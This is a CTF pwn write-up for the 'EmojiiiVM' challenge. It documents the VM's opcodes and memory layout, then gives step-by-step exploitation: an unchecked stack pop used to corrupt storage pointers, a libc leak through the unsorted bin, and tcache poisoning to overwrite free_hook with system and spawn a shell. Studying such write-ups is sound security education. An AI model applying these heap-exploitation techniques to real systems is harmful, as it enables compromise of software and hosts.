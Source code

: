 # EmojiiiVM (pwn)

## Problem Overcap

VM Pwn!!!  
Let's have a look at the allowed operations, below is a list organized by my teammate Ting

```
Index here is relative to stack_top

🈳  1 : nop
➕  2: stack[-2] += stack[-1]; pop;
➖  3: stack[-2] = stack[-1] - stack[-2]; pop;
❌  4: stack[-2] *= stack[-1]; pop;
❓  5: stack[-2] = stack[-1] % stack[-2]; pop;
❎  6: stack[-2] ^= stack[-1]; pop;
👫  7: stack[-2] &= stack[-1]; pop;
💀  8: stack[-2] = stack[-1] < stack[-2]; pop
💯  9: stack[-2] = stack[-1] == stack[-2]; pop
🚀  10: jump stack[-1]; pop;
🈶  11: jump stack[-1]; if (stack[-2] != 0); pop twice;
🈚  12: jump stack[-1]; if (stack[-2] == 0); pop twice;
⏬  13: push operand;
🔝  14: pop if stack not empty;
📤  15: stack[-2] = storage[stack[-1]][stack[-2]]; pop
📥  16: storage[stack[-1]][stack[-2]] = stack[-3]; pop three times;
🆕  17: allocate the first empty storage to (stack[-1]); pop
🆓  18: deallocate storage (stack[-1])
📄  19: read input, and put it to storage[stack[-1]]; pop
📝  20: print storage[stack[-1]]; pop
🔡  21: print and pop stack until encountering null character or empty
🔢  22: print stack[-1]; pop
🛑   23: exit;
```

Also have a look at the allowed operands
```
😀  0
😁  1
😂  2
🤣   3
😜  4
😄  5
😅  6
😆  7
😉  8
😊  9
😍  10
```

The VM memory resides in .bss, and is structured as below, stack entry is of size int64
```
     |       8       |       8       |
0x000|  storage_ptr0 |  storage_ptr1 |
0x010|  storage_ptr2 |  storage_ptr3 |
0x020|  storage_ptr4 |  storage_ptr5 |
0x030|  storage_ptr6 |  storage_ptr7 |
0x040|  storage_ptr8 |  storage_ptr9 |
0x050|     unused    |     usused    |
0x060|             stack             |
                    ...
0x450|             stack             |
```

Storage will be created through new(), each storage consists of one meta chunk and one data chunk, structured as below  
**meta**
```
    |       8       |       8       |
0x00|      size     |    data_ptr   |
```
**data** (size = demanded_size+1, demanded_size<=0x5dc)
```
     |       8       |       8       |
0x000|              data             |
                    ...
0x???|              data             |
```

We are allowed to provide a VM script of size<0x1000 bytes, and can give input to interact with our script  
glibc2.27 is used here  
all protections are enabled

## Exploit

### Vulnerabilty
The main vulnerability here lies in the arthemetic operations. Those operations pop the stack without performing any checks, and this allows us to tamper with the storage pointer stored before stack.  


### Leak libc\_base
Since we can alter heap pointers, let's see what can be done to leak address.  

To leak libc\_base, the most intuitive way is to free a unsorted\_bin\_chunk and leak the pointer, and in libc2.27, this means freeing a chunk of large\_bin size. But actually, due to the indirect reference through meta chunk, leaking the pointer directly would be a little bit harder than dereferencing it and using it to leak pointers in main_arena  

The procedure would be something as below
1. S0 = create(0x500)<code>	# target chunk</code>
2. (create(0x10))*9		# pad up storage index
3. delete(S0)
4. delete(S9)
5. S0 = create(0x10)	# replace S0 with original S9 chunk
6. S9 = create(0x10)	# malloc a chunk in the front of target chunk, and in Storage[9], so we can easily manipulate it
7. push 0x40			# offset from S9\_ptr to unsorted\_chunk
8. add*3				# add 0x40 to S9\_ptr
9. (push 0x0)*2			# re-adjust stack\_top to stack\_buffer, so that printing stack won't be truncated
10. push 10				# push a '\n' just for convenience, not necessary
11. (extract S9[0x25-i])*6	# get small\_bin addr onto stack
12. writestack			# print small\_bin address


The heap would look something like this after adding 0x40 to Storage[9]\_ptr
```
     |       8       |       8       |
0x000|               |             21|
0x010|  S9_data_size |  S9_data_ptr  | <- S9 meta data = unmodified S9_ptr
0x020|               |             21|
0x030|               |               | <- S9 data
0x040|               |            4d1|
0x050|unsortedbin_ptr|unsortedbin_ptr| <- unsorted_chunk = modified S9_ptr
```

Now we can easily leak libc\_base through extracting Storage[9] data to stack and printing it


### Create arbitrary write & get shell
The next step would be trying to hijack free\_hook to system so we can get shell. I would like to have an arbitrary malloc here, so the most likely way it to set up freed tcache list and hijack it  


Here is how I merge this trick into the original leaking payload, pay attention to just the difference
1. S0 = create(0x10)	# a chunk close to our target chunk
2. S1 = create(0x500)
3. S(2+i) = create(0x10) for i in range(8)
4. delete(S1)
5. delete(S9)
6. S1 = create(0x10)
7. S9 = create(0x10)
8. push 0x40
9. add*3
10. (push 0x0)*2
11. push 10
12. (extract S9[0x25-i])*6
13. writestack
14. delete(S1)			# delete arbitrary non-critical storage, I'll settle with S1 here
15. delete(S0)			# delete storage located right in front of S9, now *S0->data = S1\_ptr
16. push 0x68			# offset from S0->data to S9\_ptr+0x40
17. (sub)*3				# Now we have S9\_ptr = -(S0->data-0x8)
18. push 0x0
19. sub					# This additional sub negates S9\_ptr, so now S9\_ptr = -(S0->data-0x8), consequently S9->data\_ptr = S1\_ptr
20. read(S9)			# Hijack tcache\_list with free\_hook-0x8
21. (push 0x0)*2		# re-adjust stack\_top to stack\_buffer
22. S0 = create(0x10)	# take out top 2 chunks from tcache
23. S1 = create(0x10)	# now we have S1->data\_ptr = free\_hook-0x8
24. read(S1)			# read argument('/bin/sh') and &system onto free\_hook-0x8
25. delete(S1)			# call system('/bin/sh')

The heap after hijacking tcache\_list looks like this
```
tcache entry 0 -> S0_meta_data -> S0_data -> S1_meta_data -> free_hook-0x8

     |       8       |       8       |
0x000|               |             21|
0x010|  S0_data_ptr  |               | <- freed S0 meta data = tcache entry 0
0x020|               |             21| <- modified S9_ptr
0x030|S1_metadata_ptr|               | <- freed S0 data
                    ...
0x090|unsortedbin_ptr|unsortedbin_ptr| <- unsorted_chunk = unmodified S9_ptr
                    ...
0x???|               |             21|
0x???| free_hook-0x8 |               | <- freed S1 meta data
```

### Writing the payload in EmojiLang
As writing in emoji is confusing and troublesome, I wrote a simple assembler(something similar to asm() func provided by pwntools) to transform readable assembly to EmojiLang, this dramatically increases production speed.  

And as one can easily see, there are a few invalid operation(such as push 0x68) in the instructions above. Making the assembler able to parse those instructions is a harass, so I manually expanded them into valid arthimetic instructions that provide the wanted result

The length limit is large and can be ignored as long as you don't do anything silly and produce large sections of garbage code. I personally didn't spend any time optimizing code length (even sacrificing it for code simplicity), and still met the requirements.
